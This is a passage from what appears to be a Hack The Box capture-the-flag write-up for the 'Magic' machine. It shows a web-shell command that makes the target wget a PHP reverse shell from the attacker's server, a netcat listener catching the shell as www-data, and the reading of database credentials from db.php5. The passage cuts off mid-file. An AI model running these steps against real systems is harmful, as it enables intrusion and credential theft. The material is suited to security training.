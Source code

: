 ![ls](https://i.ibb.co/3F25csK/ls.png)

We will now try to get a shell on our box.

I will use `wget` in the url to get a php reverse shell from my box. I will then navigate to this file and run it.

I will then get a connection back on my listener.

I run this command to get the file from my box onto the machine:

```
http://10.10.10.185/images/uploads/image.php.jpeg?cmd=wget%20http://10.10.14.26:8000/php-reverse-shell.php
```

I also have a python server running with `python -m http.server` to establish the connection between the 2 machines.

Once we get the reverse shell onto the machine we go to it with the url:

```
http://10.10.10.185/images/uploads/php-reverse-shell.php
```

We then get a connection back on our listener.

```bash
┌──(kali㉿kali)-[~/htb/boxes/magic]
└─$ nc -nlvp 1234                    
listening on [any] 1234 ...
connect to [10.10.14.26] from (UNKNOWN) [10.10.10.185] 38866
Linux ubuntu 5.3.0-42-generic #34~18.04.1-Ubuntu SMP Fri Feb 28 13:42:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 10:17:28 up 10:02,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

After this we enumerate files on the box. We come accross a file called `db.php5` which when reading it reveals credentials for the `mysql` database.

We will use this to get our user credentials.

```bash
pwd 
/var/www/Magic
cat db.php5   
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';

    private static $cont  = null;

    public function __construct() {
        die('Init function is not allowed');
    }

    public static function connect()
    {
        // One connection through whole application
        if ( null == self::$cont )
        {
```